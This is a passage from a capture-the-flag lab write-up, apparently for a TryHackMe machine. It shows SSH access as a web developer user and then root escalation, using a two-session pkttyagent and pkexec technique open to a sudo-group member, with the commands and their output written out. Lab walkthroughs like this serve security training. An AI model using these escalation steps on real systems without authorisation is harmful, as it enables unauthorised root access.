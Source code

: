 This allows us to SSH as `webdeveloper`

```
┌──(kali㉿kali)-[~/tryhackme/road]
└─$ ssh webdeveloper@10.10.49.152                                                              

Last login: Fri Oct  8 10:52:42 2021 from 192.168.0.105
webdeveloper@sky:~$ 
```

---
## Root

Checking our groups, we see that we are in the `sudo` group.

```
webdeveloper@sky:~$ groups
webdeveloper cdrom sudo dip plugdev
```

If we were in a GUI, this would allow us to escalate with `pkexec`.  Fortunately there is a workaround.

This requires us to use 2 SSH sessions.

Session 1

```
webdeveloper@sky:~$ echo $$
1098
```

Session 2

```
webdeveloper@sky:~$ pkttyagent -p 1098
```

Session 1

```
webdeveloper@sky:~$ pkexec /bin/bash
```

Session 2 (enter the password for `webdeveloper`)

```
==== AUTHENTICATING FOR org.freedesktop.policykit.exec ===
Authentication is needed to run `/bin/bash' as the super user
Authenticating as: webdeveloper
Password: 
==== AUTHENTICATION COMPLETE ===
```

Session 1

```
root@sky:~# ls
root.txt
root@sky:~# cat root.txt
<redacted>
```